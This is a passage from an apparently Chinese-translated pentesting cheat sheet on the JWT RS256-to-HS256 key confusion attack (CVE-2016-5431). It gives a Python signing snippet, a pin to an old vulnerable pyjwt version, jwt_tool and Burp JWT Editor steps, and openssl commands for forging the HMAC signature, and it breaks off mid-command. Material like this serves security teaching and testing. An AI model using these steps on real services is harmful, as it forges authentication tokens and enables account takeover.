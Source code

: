 

### JWT签名 - 密钥混淆攻击 RS256到HS256（CVE-2016-5431）

如果服务器的代码期望接收一个"alg"设置为RSA的令牌，但实际接收到一个"alg"设置为HMAC的令牌，它可能会无意中在验证签名时使用公钥作为HMAC对称密钥。

由于攻击者有时可以获得公钥，攻击者可以修改头部中的算法为HS256，然后使用RSA公钥对数据进行签名。当应用程序使用相同的RSA密钥对作为其TLS Web服务器时：`openssl s_client -connect example.com:443 | openssl x509 -pubkey -noout`

> 算法**HS256**使用密钥对每条消息进行签名和验证。
> 算法**RS256**使用私钥对消息进行签名，并使用公钥进行认证。

```python
import jwt
public = open('public.pem', 'r').read()
print public
print jwt.encode({"data":"test"}, key=public, algorithm='HS256')
```

:warning: 此行为已在python库中修复，将返回此错误`jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.`。您需要安装以下版本：`pip install pyjwt==0.4.3`。

* 使用[ticarpi/jwt_tool](#)

  ```ps1
  python3 jwt_tool.py JWT_HERE -X k -pk my_public.pem
  ```

* 使用[portswigger/JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd)

  1. 找到公钥，通常位于`/jwks.json`或`/.well-known/jwks.json`
  2. 在JWT Editor的Keys选项卡中加载它，点击`New RSA Key`。
  3. 在对话框中，粘贴之前获得的JWK：`{"kty":"RSA","e":"AQAB","use":"sig","kid":"961a...85ce","alg":"RS256","n":"16aflvW6...UGLQ"}`
  4. 选择PEM单选按钮并复制生成的PEM密钥。
  5. 转到Decoder选项卡并将PEM进行Base64编码。
  6. 返回JWT Editor的Keys选项卡并生成一个新的`New Symmetric Key`，格式为JWK。
  7. 用您刚刚复制的Base64编码的PEM密钥替换生成的k参数的值。
  8. 编辑JWT令牌的alg为`HS256`和数据。
  9. 点击`Sign`并保留选项：`Don't modify header`

* 手动使用以下步骤将RS256 JWT令牌编辑为HS256

  1. 使用此命令将我们的公钥（key.pem）转换为HEX。

     ```powershell
     $ cat key.pem | xxd -p | tr -d "\
  "
     2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a
     ```

  2. 通过提供我们的公钥作为ASCII十六进制以及我们之前编辑过的令牌来生成HMAC签名。

     ```powershell
     $ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ" | openssl dgst -sha256 -mac HMAC -macopt hexkey:2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a
     